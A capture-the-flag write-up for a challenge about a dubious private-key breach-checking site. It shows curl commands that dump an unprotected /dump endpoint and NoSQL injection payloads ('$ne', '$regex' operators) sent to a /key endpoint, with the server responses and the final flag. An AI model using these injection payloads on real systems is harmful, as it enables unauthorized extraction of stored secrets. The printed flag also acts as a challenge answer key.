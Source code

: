 # dot-private-key

![Proof](proof.png)   

**Author:** `RaduTek`  
**Solves:** 26

**writeup made by** `lifip27`
---

## Description

Our security researcher has found this dubious website claiming to check any private keys for potential breaches in a secure manner. They think otherwise.

Attached are some clean keys that our researcher tried to check with the website a few days ago. Curiously, they have been exposed since.

Your task is to see if this website is truly up to what it claims.

we get `keys.txt`

## Solve

### Unintended solve
I found a vulnerability in this challenge particular to /dump

```bash
$ curl http://ctf.ac.upt.ro:9239/dump
...
ctf{...}
```

This would just leak absolut everything even the flag.

### Intended solve is doing NoSQL in key query
```bash
$curl -s -X POST http://ctf.ac.upt.ro:9239/key \
  -H 'Content-Type: application/json' \
  -d '{"key":{"$ne":""},"type":"other"}' | jq .
{
  "breach": {
    "_id": "68c72076e2df5cb2097558fa",
    "type": "other",
    "key": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9eyAiaGVsbG8iIDozfQ==",
    "sources": [
      "https://impkb.xyz/?d=aHR0cHM6Ly9wYXN0ZWJpbi5jb20vY2luTTV5WFg="
    ],
    "addedAt": 1757059854
  }
}
```

Because we confirmed the NoSQL injection worked lets try to regex the flag using `{"key":{"$regex":"ctf{","$options":"i"},"type":{"$regex":".*"}}`
```bash
$ curl -i -s -X POST http://ctf.ac.upt.ro:9239/key   -H 'Content-Type: application/json'   -d '{"key":{"$regex":"ctf{","$options":"i"},"type":{"$regex":".*"}}'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 172
ETag: W/"ac-C5xsM7Ij5D/pSpBFx7msMS+dd+M"
Date: Wed, 17 Sep 2025 18:26:21 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"breach":{"_id":"68c72076e2df5cb2097558fc","key":"ctf{284dc217ce36b9133c561207af3dbf6b8656323d6375f3f5c8c955be0a2aab66}","type":"other","sources":[],"addedAt":1726344438}}
```
There is our flag!

### Flag: ctf{284dc217ce36b9133c561207af3dbf6b8656323d6375f3f5c8c955be0a2aab66}